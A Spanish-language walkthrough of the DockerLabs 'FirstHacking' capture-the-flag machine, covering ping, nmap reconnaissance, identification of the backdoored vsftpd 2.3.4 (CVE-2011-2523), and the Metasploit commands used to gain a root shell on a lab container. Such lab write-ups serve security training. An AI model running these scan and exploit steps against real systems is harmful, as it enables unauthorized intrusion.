

Machine name: First haking<br>
plataforma: https://dockerlabs.es/#/<br>
Dificultad: Muy facil<br>
source: https://mega.nz/file/oCd2VC5D#QfiRoFmZrZ-FjTuyRX9bLw7638fjluwp6jNth7JjXTw<br>
Autor: El pinguino de Mario<br>

Herramientas:
- Ping
- NMAP
- Metasploit

Máquina: <br>
![[image]](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Firsthacking%20machine.png) <br>
despliegue:

```sh fold:"Despliegue de la maquina"
sudo bash auto_deploy.sh firsthacking.tar 
```

Despliegue: <br>
 <br>
ping a la IP:
```sh fold:"Ping a la máquina"
ping -c1 172.17.0.2
```
<br>

<br>
<br>
TTL: 64 linux

reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```
<br>
 <br>

vemos que encontramos el puerto 21
vamos a lanzar un nmap con detalles para el puerto 21
```sh fold:"Reconocimiento con nmap y scrips del puerto 21"
sudo nmap --script "vuln" -p 21 172.17.0.2
```
<br>
 <br>

tenemos la versión 2.3.4 y un cve:CVE-2011-2523
vamos a intentar explotarlo con metasploit

lanzamos metaesploit
buscamos por el CVE y al no encontrarlo buscamos por la versión de FTP:

```sh fold:"metaesploit"
search CVE-2011-2523 # No results
search ftp 2.3.4
use 0
set RHOSTS 172.17.0.2
run
```
<br>
 <br>


metaesploit configuramos el IP destino:<br>


Una vez configurado el metasploit lanzamos run para lanzar el ataque
<br>
<br>
conseguimos acceso con el usuario root:<br>


